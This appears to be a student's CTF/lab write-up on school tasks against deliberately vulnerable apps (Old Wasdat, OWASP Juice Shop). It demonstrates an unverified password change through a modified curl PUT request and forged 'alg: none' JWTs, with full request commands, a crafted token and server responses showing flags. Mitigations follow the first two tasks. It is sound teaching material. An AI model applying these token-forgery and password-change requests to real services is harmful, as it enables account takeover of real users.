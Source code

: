 ```yaml
---
categories:
- CTF
layout: post
media_subpath: /assets/posts/2025-01-25-Cryptographic-Fails
tags:
- JWT
- Cryptographic Failures 
title: School Tasks 1 - Web Application Security - Cryptographic Fails
---
```

# Old Wasdat – Change user’s password by using curl

## Changing user’s password with curl request.
***Description:*** 

The service accepts manipulated curl-request in order to change the password of specific user via changing the parameters of the original request. Also, the bio section must be
changed, or it will produce an internal server error.

***Vulnerability: CWE-620: Unverified Password Change***

***Steps to reproduce:***

• Create an account for this service and find the profile section, where you can change the password

• Open browser’s developer-tools to capture the traffic in this page.

• In the form change bio and password.

• Therefore, copy the cURL request from the network section for further modification

• As you can see the password in the request is in SHA-1, which is considered a severely vulnerable
encryption method. “SHA-1 is widely considered obsolete due to its well-documented vulnerabilities”, (Harish, Anusha).

• Now modify the request’s, bio and password strings. New password needs to be in SHA-1 format
also.

Here is my request:

````bash 
curl -i 'http://wasdat.fi:8080/api/user' -X PUT -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64;
rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: application/json, text/plain, */*' -H 'Accept-
Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Authorization: Token eyJ0eX-
AiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQi-
O***********************************************************
**************************************************************pdHkiOjEsImZyZXNoIj
p0cnVlLCJ0eXBlIjoiYWNjZXNzIn0.l8q9iBlXgC09PcuMS2DxIzvcHfpRl4AKc6n-1wsoObI' -H 'Content-
Type: application/json;charset=utf-8' -H 'Origin: http://wasdat.fi:8080' -H 'Connection: keep-alive' -
H 'Referer: http://wasdat.fi:8080/' -H 'Cookie: language=en; welcomebanner_status=dismiss; cook-
ieconsent_status=dismiss; continue-
Code=aj4QDO4KyOqPJ7j2novp9EQ38gYVAJvlAM1wWxalND5reZRLzmXk6BbmzZRb' -H 'Priority: u=0'
--data-raw '{"user":{"email":"wasdat-victim@example.com","username":"victim","bio":"thisneed-
stobechangedalso","image":null,"password":"b9333b50f2beb8aac0f0a65eabd0e0bb3ee5b234"}}'
Bio : thisneedstobechangedalso
Password : JAMK2025 (in SHA-1 format)
````



• This was the response from the website:

![](2025-02-18-15-53-02.png)

• Now make sure that the password was changed by logging in, here is my post request data and the
response:

![](2025-02-18-15-53-46.png)

The response was legit and now it’s confirmed that the payload for the password change worked.

***Impact estimation:***

• High severity: This vulnerability has a significant impact on gaining control of other user’s account,
but I will consider it as high not critical, because attacker need to gain access to this user's authentication token to carry out the successful change. Considering also that password is using weak encryption method.

***Mitigation:***

• Implement a validation for new password change. This would be example a section for previous
password to verify the author of the request or something different authetication method.


# Task 2A: Juice Shop – Exploiting Unsigned JWT

## Forge an essentially unsigned JWT token that impersonates the (non-existing) user jwtn3d@juice-sh.op.

***Description:***

“JWT is a way to determine authorization between a user and a web server, without
the web server needing to keep track of sessions.”, (Hacker Bartender, 2021). Another way to au-
thenticate the client with the server.

***Vulnerability:*** Target supports none-algorithm.

***Steps to reproduce:***

• Start Burpsuite in order to capture the traffic between the server and the client

• Use proxy to intercept the traffic of an action while logged in as registered account (I used the password changing section for this

• You can identify the JSON Web Token in the request its in following format:

![](2025-02-18-15-57-29.png)

• Now you can use an optional JWT editor to craft the payload. In this payload you change the algorithm parameter in the header section into “none”. I found out that few editors didn’t accept to do
this, but I was able to craft it with this. (https://www.gavinjl.me/edit-jwt-online-alg-none/)

• Also, for this challenge you need to change from the data section the email address to the impersonators address (jwtn3d@juice-sh.op).

• Here is the crafted data and the payload:

![](2025-02-18-15-58-30.png)

Then this needs to be in Base64 format like in the original request to work, here is my crafted
````bash 
token:
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJzdGF0dXMi-
OiJzdWNjZXNz*****************************************IjoiIiwiZW1haWwiOiJqd3RuM2RAan
VpY2Utc2gub3AiL-
CJwYXNzd29yZCI6IjhmMDM2MzY5YTVjZDI2NDU0OTQ5ZTU5NGZiOWUwYTJkIiwicm9sZSI6I
6
mN1*******************************************************jAyNS0wMS0zMSAxOToxNDowNi4yMzEgK
zAwO******************************MS0zMSAxO-
ToxNDowNi4yMzEgKzAwOjAwIiwiZGVsZXRlZEF0Ijpud-
WxsfSwiaWF0IjoxNzM4MzUwODU2fQ.
````
• This will be placed in the authorization and cookie sections

• Then send the request

![](2025-02-18-16-00-03.png)

***Mitigation:***

• Disabling the application accepting “none” as algorithm

• Encrypting the token with more complex method

## Task 2B: Old wasdat – JWT Exploitation

***Steps to reproduce:***

• Start with capturing the network traffic with browser’s developer’s tools (another method is to capture the packet with Burpsuite and then copy the request as “curl-command”, this one I prefer

• Capture the packet from password changing event and copy it into “cURL”

• Here is my captured packet and I modified the algorithm into “none” and my student id into that
````bash
curl -i 'http://wasdat.fi:8080/api/user' -X PUT -H 'Authorization: Token eyJ0eXAiOiJKV1QiLCJhbGci-
O**********************************
*************************************
**********************************NTI3NCwiaWRlbnRpdHkiOjIsImZyZXNoIjp0cnVlLCJ0eX
BlIjoiYWNjZXNzIn0.' -H 'Content-Type: application/json;charset=UTF-8' --data-raw
'{"user":{"email":"attacker@example.com","username":"attacker","bio":"asdasdasdasdasdasdas-
daa","image":null,"password":"b9333b5*******************5b234"}}'
````
• In this packet I used the earlier challenges “JAMK2025” SHA-1 password hash and by executing the
command, the flag appeared into the console:
````bash
HTTP/1.1 200 OK
Server: nginx/1.19.6
Date: Sun, 02 Feb 2025 14:33:15 GMT
Content-Type: application/json
Content-Length: 162
Connection: keep-alive
Access-Control-Allow-Origin: http://0.0.0.0:4000
Vary: Origin
CurlFlagEarned: WasFlag4_1{PasswordSetWithCurl}
JWTFlagEarned: WasFlag4_2{AlgNoneShouldBeDead}
Access-Control-Allow-Origin: *
{
"user": {
"bio": "asdasdasdasdasdasdasdaa",
"email": "attacker@example.com",
"image": null,
"token": "",
"username": "attacker"
}
}
````
• This also confirms that the password has been changed.


## Sources

Harish, Anusha. SHA-256 vs. SHA-1: Which Is The Better Encryption?. Referenced 31.1.2025
https://www.securew2.com/blog/what-is-sha-encryption-sha-256-vs-sha-1

MITRE. CWE-620 - Unverified Password Change. 19.11.2024. Referenced 31.1.2025
https://cwe.mitre.org/data/definitions/620.html

Hacker Bartender. OWASP Juice Shop – Unsigned JWT. 2.10.2021. Referenced 31.1.2025
https://www.hackerbartender.com/unsigned-jwt/

Github. Whyiest – Juice Shop Write-up. 31.3.2024. Referenced 31.1.2025
https://github.com/Whyiest/Juice-Shop-Write-up/blob/main/5-stars/unsigned_jwt.md